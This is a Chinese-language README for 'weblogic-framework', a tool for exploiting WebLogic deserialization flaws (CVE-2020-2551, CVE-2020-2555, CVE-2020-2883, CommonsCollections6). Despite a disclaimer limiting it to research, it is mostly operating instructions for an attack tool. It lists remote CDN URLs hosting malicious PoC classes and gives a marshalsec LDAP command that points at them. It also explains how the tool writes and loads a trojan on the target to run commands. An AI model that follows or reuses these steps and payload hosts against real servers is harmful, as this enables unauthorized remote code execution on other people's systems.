



## weblogic-framework

weblogic-framework is the best tool for detecting weblogic vulnerabilities.

## 免责申明

**本工具仅适用于安全技术研究，严禁使用本工具发起网络黑客攻击，造成的法律后果，请使用者自负。**

## 使用方式

### 常用漏洞

由于 Weblogic 的补丁是互斥的，安装最新的补丁时需要进行卸载之前的补丁，所以以下漏洞仅会保持最新、高可用的原则进行使用。

#### CVE-2020-2551

**CVE-2020-2551 检测需要配合 LDAP 进行检测，回显 POC 可使用远程 CDN 的地址也可以自启 HTTP 服务提供。**

```
/**
 * Title: CVE-2020-2551
 * Desc:
 * <p>
 *     攻击者可以通过 T3、IIOP 协议远程访问 Weblogic Server 服务器上的远程接口，传入恶意数据，从而获取服务器 权限并在未授权情况下远程执行任意代码。
 *     漏洞影响版本:
 *     Oracle WebLogic Server 10.3.6.0.0
 *     Oracle WebLogic Server 12.1.3.0.0
 *     Oracle WebLogic Server 12.2.1.3.0
 *     Oracle WebLogic Server 12.2.1.4.0
 *     github: https://github.com/0nise/CVE-2020-2551
 *     paper: https://www.r4v3zn.com/posts/b64d9185/
 * </p>
 * Date:2020/3/23 23:05
 * Email:woo0nise@gmail.com
 * @version 1.1.0
 */
```

远程提供 POC 如下：

| URL                                                                                | LDAP 设置地址                                                                  | 回显类                              | 备注                                    |
|:-----------------------------------------------------------------------------------|:------------------------------------------------------------------------------|:-----------------------------------|:---------------------------------------|
| http://qch7ecs9e.bkt.clouddn.com/PocServerClusterMasterRemote.class                | http://qch7ecs9e.bkt.clouddn.com/#PocServerClusterMasterRemote                | ClusterMasterRemote                | ClusterMasterRemote 回显（默认）         |
| http://qch7ecs9e.bkt.clouddn.com/PocServerRemoteChannelService.class               | http://qch7ecs9e.bkt.clouddn.com/#PocServerRemoteChannelService               | RemoteChannelService               | ClusterMasterRemote 回显                |
| http://qch7ecs9e.bkt.clouddn.com/PocServerRemoteLeasingBasis.class                 | http://qch7ecs9e.bkt.clouddn.com/#PocServerRemoteLeasingBasis                 | RemoteLeasingBasis                 | RemoteLeasingBasis 回显                 |
| http://qch7ecs9e.bkt.clouddn.com/PocServerRemoteMigratableServiceCoordinator.class | http://qch7ecs9e.bkt.clouddn.com/#PocServerRemoteMigratableServiceCoordinator | RemoteMigratableServiceCoordinator | RemoteMigratableServiceCoordinator 回显 |
| http://qch7ecs9e.bkt.clouddn.com/PocServerSingletonMonitorRemote.class             | http://qch7ecs9e.bkt.clouddn.com/#PocServerSingletonMonitorRemote             | SingletonMonitorRemote             | SingletonMonitorRemote 回显             |
| http://qch7ecs9e.bkt.clouddn.com/PocServerSubCoordinatorRM.class                   | http://qch7ecs9e.bkt.clouddn.com/#PocServerSubCoordinatorRM                   | SubCoordinatorRM                   | SubCoordinatorRM 回显                   |

1. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://qch7ecs9e.bkt.clouddn.com/#PocServerClusterMasterRemote 1099
```

2. 配置 LDAP 地址：



#### CommonsCollections6

```
/**
 * Title: CommonsCollections6
 * Desc:
 * <p>
 *     攻击者可以通过 T3、IIOP 协议远程访问 Weblogic Server 服务器上的远程接口，传入恶意数据，从而获取服务器 权限并在未授权情况下远程执行任意代码。
 *     漏洞影响版本:
 *     Oracle WebLogic Server 10.3.6.0.0
 *     Oracle WebLogic Server 12.1.3.0.0
 * </p>
 * Date:2020/4/5 3:48
 * @version 1.0.0
 */
```

#### CVE-2020-2555

```
/**
 * Title: CVE-2020-2555
 * Desc:
 * <p>
 *     CVE-2020-2555
 *     Oracle Fusion 中间件 Oracle Coherence 存在缺陷，攻击者可利用该漏洞在未经授权下通过构造 T3、IIOP 协议请求，获取 Weblogic 服务器权限，执行任意命令。
 *     该漏洞主要是因为 com.tangosol.util.filter.LimitFilter#toString 触发。
 *     漏洞影响版本:
 *     Oracle Coherence 3.7.1.17
 *     Oracle Coherence & Weblogic 12.1.3.0.0
 *     Oracle Coherence & Weblogic 12.2.1.3.0
 *     Oracle Coherence & Weblogic 12.2.1.4.0
 *     github: https://github.com/0nise/CVE-2020-2555
 *     paper: https://www.r4v3zn.com/posts/975312a1/
 * </p>
 * Date:2020/3/31 21:31
 * @version 1.0.0
 */
```

#### CVE-2020-2883

```
/**
 * Title: CVE-2020-2883
 * Desc:
 * <p>
 *     CVE-2020-2883
 *     Oracle Fusion 中间件 Oracle Coherence 存在缺陷，攻击者可利用该漏洞在未经授权下通过构造 T3、IIOP 协议请求，获取 Weblogic服务器权限，执行任意命令。
 *     该漏洞主要为 CVE-2020-2555 基于 CommonsCollections2 （ExtractorComparator + PriorityQueue） 的绕过。
 *     漏洞影响版本:
 *     Oracle Coherence 3.7.1.17
 *     Oracle Coherence & Weblogic 12.1.3.0.0
 *     Oracle Coherence & Weblogic 12.2.1.3.0
 *     Oracle Coherence & Weblogic 12.2.1.4.0
 * </p>
 * Date: 2020/4/19 15:28
 *
 * @version 1.0.0
 */
```

### 使用

- CommonsCollections6 不需要额外配置参数可直接利用，影响版本：Weblogic 10.3.6.0、12.1.3.0 。
- CVE-2020-2555、CVE-2020-2883 利用时特殊情况（Weblogic 版本为 12.2.x）下需要配置 javascript.jar 的下载地址，默认程序会自带一个下载地址，如失效可通过将 `com.bea.javascript.jar` 文件放置在可访问的 HTTP 服务中，影响版本：Weblogic 12.1.3.0.0、12.2.1.3.0、 12.2.1.4.0。

攻击成功时会程序会展示 token 名称，复制 token 名称至命令执行中的 token 输入框中，即可执行命令：





## 附录

### 回显方案

#### Javascript

通过 javascript.jar 进行加载 byte[] 字节码文件进行序列化，写入木马，绑定回显。

#### FileOutStream

1. 通过 FileOutStream 将字节码文件写入 Weblogic 服务器中
2. 通过 URLClassLoader 进行加载 FileOutStream 写入的文件木马并反射执行木马。
3. **URLClassLoader 暂且不支持 CVE-2020-2551 漏洞。**

### 配置项

#### 目标地址

需要测试目标地址，格式必须为 HTTP 开头

#### 回显方案

见回显方案说明

#### javascript 地址

当回显方案配置为 Javascript 时需要配置，默认情况会配置一个地址，也可自建一个 HTTP 服务将文件作为下载文件。

#### LDAP 地址

验证 CVE-2020-2551 时必须要使用的配置项，默认情况下不会进行配置需要自行开启 LDAP 服务，利用的 EXP 默认存储在 poc 目录中（在手册中附带远程的地址，使用时可直接指向远程地址），开启 LDAP 服务可通过 marshalsec 进行启动，以下为详细的启动命令：

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://qch7ecs9e.bkt.clouddn.com/#PocServerClusterMasterRemote 1099
```

#### 漏洞编号

默认情况下为`请选择`选项，目前已经集成 CVE-2020-2551、CVE-2020-2555、CVE-2020-2883。

#### 协议

测试、利用漏洞时使用的协议，默认情况下使用 IIOP 协议，**T3 协议不稳定**。

#### 回显类

使用 T3、IIOP 协议进行利用时执行命令回显的类，默认情况下为 ClusterMasterRemote。

#### 编码

执行命令执行回显的编码，默认情况下为自动，可通过配置项设置为 UTF-8、GBK 编码。

#### 版本

Weblogic 版本，在提前得知版本的情况下可通过该方式进行配置。

## FQA

**Q：为什么加入之前的漏洞？**

Weblogic 的安全更新补丁是互斥的，安装是需要卸载之前的补丁，所以只需要保持最近一年的精华利用漏洞即可。

## 更新日志

2020-06-25

- 新增 T3、IIOP 协议开放检测
- 优化 CVE-2020-2551 回显方案

2020-04-04

- 取消入口为 ip + port 方式修改为 url 方式
- 修改部分实现

